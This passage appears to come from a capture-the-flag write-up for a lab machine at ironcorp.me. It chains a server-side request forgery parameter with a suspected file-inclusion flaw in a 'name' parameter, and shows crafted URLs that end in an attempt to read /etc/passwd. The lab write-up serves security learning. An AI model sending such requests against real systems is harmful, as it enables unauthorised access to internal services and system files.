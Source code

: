 But the URL format seems pretty odd, maybe we can chain this vulnerability with LFI on the `?name=` parameter, without proper sanitization, we may be able to read files, let's try, first, if we try without anything on the parameter, we can see this:

```
http://admin.ironcorp.me:11025/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3D#
```

![Pasted image 20250718171043.png](../../IMAGES/Pasted%20image%2020250718171043.png)

It says:

```
My name is Equinox
```

If we use `test`:

```
http://admin.ironcorp.me:11025/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3Dtest#
```

![Pasted image 20250718171050.png](../../IMAGES/Pasted%20image%2020250718171050.png)

The `test` gets appended to the initial name, what about `/etc/passwd`:

```
http://admin.ironcorp.me:11025/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3D%2Fetc%2Fpasswd#
```

![670x166](../../IMAGES/Pasted%20image%2020250718171109.png)
